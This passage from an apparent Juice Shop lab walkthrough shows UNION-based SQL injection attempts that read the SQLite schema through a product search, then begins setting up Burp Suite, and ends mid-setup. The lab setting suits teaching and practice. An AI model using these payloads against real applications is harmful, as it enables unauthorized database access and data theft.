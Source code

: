So, we can try:

```sql
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql FROM sqlite_schema -- attempt 1
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2 FROM sqlite_schema -- attempt 2
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2,3 FROM sqlite_schema -- attempt 3
SELECT * FROM Products WHERE ((name LIKE '%')) UNION SELECT sql,2,3,4 FROM sqlite_schema -- attempt 4
-- et cetera...
```

So, let's put it into action.

### Execution

So, first, let's open up Burp Suite to see the requests we're sending to the server.

We can go under `Proxy` and open up a browser to `localhost:3000` to see our Juice Shop:

![Juice Shop and Proxy, side by side](../assets/juice-shop/injection/image-20231010223036592.png)Here are a bunch of the requests that fire off when we first open the page:
